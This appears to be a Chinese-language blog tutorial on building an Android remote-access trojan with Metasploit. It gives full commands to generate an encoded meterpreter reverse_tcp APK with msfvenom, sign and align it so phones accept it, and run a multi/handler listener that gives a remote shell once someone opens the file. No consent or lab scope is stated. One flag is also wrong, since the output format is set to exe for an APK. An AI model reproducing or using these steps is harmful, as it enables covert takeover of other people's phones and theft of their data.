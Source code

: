 title: 使用Metasploit远控你的手机
categories: 干货
tags: [Metasploit,远控]
date: 2020-09-15 19:49:00
---
# 安装MetaSploit
>我的环境是:Kubuntu20.04

一键脚本:
```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall &&   chmod 755 msfinstall &&   ./msfinstall
```
然后就无了

# 生成一个远控程序
```bash
msfvenom -p android/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=10.0.0.155 LPORT=52130 -f exe > test.apk

-p 攻击载荷
-e 编码方式
-i 编码次数
-b 在生成的程序中避免出现的值
LHOST,LPORT 监听上线的主机IP和端口
-f exe 生成EXE格式
```

>我们已经成功创建了Android格式（APK）文件的有效载荷。现在一般Android的移动设备不允许安装没有适当签名证书的应用程序。 Android设备只安装带有签署文件的APK。

我们可以使用如下工具进行手动签名：
>Keytool (已安装)
>jarsigner (需要安装)
>zipalign (需要安装)

执行下列命令签名。首先使用密钥工具创建密钥库。
```bash
keytool -genkey -v -keystore my-release-key.Keystore -alias wdnmd -keyalg RSA -keysize 2048 -validity 10000
```
然后使用JARsigner签名APK
```bash
apt install openjdk-14-headless #安装Java

jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore my-release-key.Keystore test.apk wdnmd #签名APK

jarsigner -verify -verbose -certs test.apk #验证签名
```
使用zipalign优化APK
```bash
apt install zipalign #安装zipalign
zipalign -v 4 test.apk NEWtest.apk
```
#使用Metasploit进行测试
接下来启动metasploit的监听器。执行`msfconsole`打开控制台
```bash
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 10.0.0.155
set lport 52130
exploit
```
如有人打开**NEWtest.apk(MainActivity.apk)**时，则会出现等待输入界面
```bash
meterpreter >
```
输入`help`获得帮助